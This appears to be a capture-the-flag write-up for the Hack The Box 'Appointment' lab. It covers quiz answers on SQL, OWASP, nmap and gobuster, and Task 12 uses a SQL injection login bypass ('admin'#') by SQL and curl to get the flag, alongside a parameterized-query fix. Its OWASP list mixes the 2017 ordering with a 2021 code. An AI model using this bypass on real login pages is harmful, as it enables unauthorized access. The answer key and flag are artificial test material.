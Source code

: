 # Appointment

## Task 1

> What does the acronym SQL stand for?

structured query language

## Task 2

> What is one of the most common type of SQL vulnerabilities?

sql injection

## Task 3

> What does PII stand for?

personally identifiable information

## Task 4

> What does the OWASP Top 10 list name the classification for this vulnerability?

A03:2021-Injection

The latest OWASP report lists the top 10 vulnerabilities as the following:

 1. Injection
 2. Broken authentication
 3. Sensitive data exposure
 4. XML external entities (XXE)
 5. Broken access control
 6. Security misconfigurations
 7. Cross-site scripting (XSS)
 8. Insecure deserialization
 9. Using components with known vulnerabilities
10. Insufficient logging and monitoring

* OWASP Top Ten \| OWASP Foundation  
  https://owasp.org/www-project-top-ten/

* What Is OWASP? What Is the OWASP Top 10? \| Fortinet  
  https://www.fortinet.com/resources/cyberglossary/owasp

## Task 5

> What service and version are running on port 80 of the target?

Apache httpd 2.4.38 ((Debian))

```
nmap -sV -p80 10.129.201.180
```

```out
Starting Nmap 7.80 ( https://nmap.org ) at 2022-09-13 22:03 EDT
Nmap scan report for 10.129.201.180
Host is up (0.029s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.78 seconds
```

## Task 6

> What is the standard port used for the HTTPS protocol?

443

```
grep https /etc/services
```

```out
# Updated from https://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml .
https		443/tcp				# http protocol over TLS/SSL
https		443/udp				# HTTP/3
```

## Task 7

> What is one luck-based method of exploiting login pages?

brute-forcing

## Task 8

> What is a folder called in web-application terminology?

directory

Yeah, this *is* the name (not fucking "folder").

## Task 9

> What response code is given for "Not Found" errors?

404

Mr. Robot fans know this.

## Task 10

> What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?

dir

## Task 11

> What symbol do we use to comment out parts of the code?

\# (octothorpe)

## Task 12

> Submit root flag

e3d0796d002a446c0e622226f42e9672

```
select * from users where uname == '+$user+' && password == '+$pass+'\''
```

becomes

```
select * from users where uname == 'admin'#' && password == '+$pass+'\''
```

By the way, the proper way to write that would be something like this:

```
do('select * from users where username == ? && password == ?',
    "$user", "$pass")
```

This one took me a while because I had forgotten SQL from my earlier
days and was using a double quote instead of single. I also had to
visualize the SQL I was hypothetically generating in order to see how
the injection would possibly be working.

Can also automate with `curl`:

```
curl -sSL -X POST  -H "Content-Type: application/x-www-form-urlencoded"
-d 'username=admin%27%23&password=whatever' 'http://10.129.230.234/#' | grep flag
```

```out
┌──(kali㉿kali)-[~]
└─$ curl -sSL -X POST  -H "Content-Type: application/x-www-form-urlencoded" -d       'username=admin%27%23&password=whatever' 'http://10.129.230.234/#' |grep flag<div><h3>Congratulations!</h3><br><h4>Your flag is: e3d0796d002a446c0e622226f42e9672</h4></div></div></div></body></html>
```

